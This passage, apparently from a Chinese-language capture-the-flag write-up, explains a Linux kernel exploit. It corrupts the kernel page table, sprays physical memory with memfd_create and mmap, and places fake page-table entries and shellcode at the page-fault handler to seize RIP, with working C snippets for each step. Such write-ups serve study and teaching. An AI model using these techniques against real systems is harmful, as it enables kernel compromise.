 執行後：

```
Invalid address 0xffffffff81a00b50
```

因為 page table 被寫壞，讓 kernel 找不到 interrupt handler，因此就不斷觸發 #PF。不過如果我們可以填入一個合法的 entry，就能夠讓 kernel 繼續執行，甚至控制 RIP。



### From PGT To RIP

為了構造一個合法的 PUD entry，我們必須有一個可控資料的 physical address，這部分能透過 `memfd_create()` spraying memory 來解決：

```c
int mfd = memfd_create("x", 0);
fallocate(mfd, 0, 0, 0x30000 * 0x1000);
for (int i = 0; i < 0x30000; i++)
{
    mmap((void *)0x1234000, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_FIXED, mfd, i * 0x1000);
    memcpy((void *)0x1234000, page, 0x1000);
    munmap((void *)0x1234000, 0x1000);
}
```

透過 `memfd_create()` 以及 `fallocate()`，我們可以建立一個大小可控的 anonymous file，而 anonymous file 的特性就是檔案內容會被儲存在 memory 當中，也就是能夠對應到一個 physical address 。再來我們透過 `mmap()` 做 memory mapping，直接用 memory access 的方式存取，並將構造好的 page table entry 與 shellcode 寫到裡面。

這邊假設 **0x0101120000** 為可控 page 的 physical address，因此我們需要透過 `push rsi` 將 `level3_kernel_pgt` index=510 的 entry 寫成 `0x0101120067`：

```c
uc->uc_mcontext.gregs[REG_RSI] = 0x0101120067UL;
```

為了提升 spraying 的機率，我們將 PMD、PT 與 shellcode 建構在同一個 page 上，這樣只需要猜對一個 physical address：

![image-20230803153525151](/Users/u1f383/Library/Application Support/typora-user-images/image-20230803153525151.png)

我們要控制執行流程的目標為 #PG handler `asm_exc_page_fault()`，所以 shellcode 會構造在 page 內偏移 0xb50 的地方：

```c
page_fault = kaddr + 0xa00b50;
page[(page_fault >> (12 + 9)) & 0x1ff] = 0x0101120067UL; // PMD
page[(page_fault >> (12)) & 0x1ff] = 0x01011201e3UL; // PT
memcpy(&page[0xb50 / 8], shellcode, 0x100);
```

如果 **0x0101120000** 真的是我們控制的 fake page table，之後在執行時 `asm_exc_page_fault()` 時就會執行到位於 offset `0xb50` 的 shellcode。

不過雖然我們可以在 kernel space 執行任意的 shellcode，但基本上整個 kernel 已經沒有辦法正常運作，要如何在這種情況下取得 flag？



### Get Flag
